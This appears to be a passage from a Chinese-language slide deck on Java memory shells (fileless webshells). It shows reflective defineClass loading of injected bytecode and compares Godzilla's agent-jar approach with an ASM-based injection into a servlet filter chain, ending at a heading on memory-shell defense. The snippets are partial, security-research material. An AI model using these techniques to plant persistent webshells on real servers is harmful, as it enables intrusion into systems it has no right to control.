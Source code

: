 ```java {*}{maxHeight:'300px'}
          }
          URLClassLoader uRLClassLoader = new URLClassLoader(new URL[0], Thread.currentThread().getContextClassLoader());
          Method method = ClassLoader.class.getDeclaredMethod("defineClass", byte[].class, Integer.TYPE, Integer.TYPE);
          method.setAccessible(true);
          Class clazz = (Class)method.invoke(uRLClassLoader, byArray, new Integer(0), new Integer(byArray.length));
          clazz.newInstance();
      }
      catch (Exception exception) {
          exception.printStackTrace();
      }
  }
}
```

---

### 2. 哥斯拉实现

Agent Jar 默认由 appClassLoader 进行加载，因此可直接通过其进行加载，但是 GlassFish/WAS 这种 OSGI 类加载模型会有限制，加载不到

```java
try {
    if (Class.forName("xxx.ErrorAgentFilterChain", true, ClassLoader.getSystemClassLoader()).newInstance()
            .equals(new Object[]{request, response})) {
        return;
    }
} catch (Throwable throwable) {}
```

### 3. 最终选择的实现

使用 ASM 将内存马类 define 到增强类的 ClassLoader 中，直接对其进行调用（ByteBuddy 可以方便进行内存马逻辑代码全注入，但是包太大，方案舍弃）

```java
try {
    if (new ErrorAgentFilterChain().equals(new Object[]{request, response})) {
        return;
    }
} catch (Throwable throwable) {}
```

---
layout: center
class: text-center
---

# 内存马防御
